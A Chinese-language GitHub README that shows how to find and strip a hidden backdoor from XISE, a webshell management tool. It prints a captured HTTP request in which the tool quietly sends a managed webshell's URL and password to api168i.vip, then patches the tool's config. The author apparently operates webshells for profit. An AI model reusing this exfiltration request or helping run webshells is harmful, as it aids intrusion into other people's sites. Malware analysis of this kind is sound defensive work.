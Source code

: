 # securitydrops
These are some things encountered on the road to making money, converted into articles

## xise后门去除**

工具来源：https://webshell6.com/?id=4 (不出意外应该全站有后门，站长却意思全站无后门，估计是几年老黑啊)

准备工具：WSExokrer、c32asm

![image](https://github.com/hcsmall/securitydrops/assets/139908133/ae36239a-069b-4150-8a86-11dde98b7007)


启动程序后使用WSExokrer 选择xise进程监控，给XISE添加一条链接

![image](https://github.com/hcsmall/securitydrops/assets/139908133/51b83c3e-e2c0-4680-933c-6b2e37454e4e)




POST /abc1.php HTTP/1.1
Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/x-shockwave-flash, application/vnd.ms-excel, application/vnd.ms-powerpoint, application/msword, */*
Referer: http://api168i.vip/abc1.php
Accept-Language: zh-cn
Content-Type: application/x-www-form-urlencoded
Content-Length: 43
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.0)
Host: api168i.vip
Cache-Control: no-cache
 
hm=http://xxxx/bak111.php||xise



可以看到向api168i.vip 发送了明显的shell数据，找到后就可以去找后门地址去掉就可以了。

mdb 数据库文件

exe本身

调用文件dat

使用c32asm加载fz.dat这个配置文件，搜索api168i.vip。



![image](https://github.com/hcsmall/securitydrops/assets/139908133/9ed2afdf-3f46-4183-8cda-74acd6b7427c)




将地址直接填充后保存即可。

当然如果你不会使用c32的话，也可以修改本地hosts文件将 api168i.vip 指向127.0.0.1 同样也可以解决向后门地址发送shell的问题

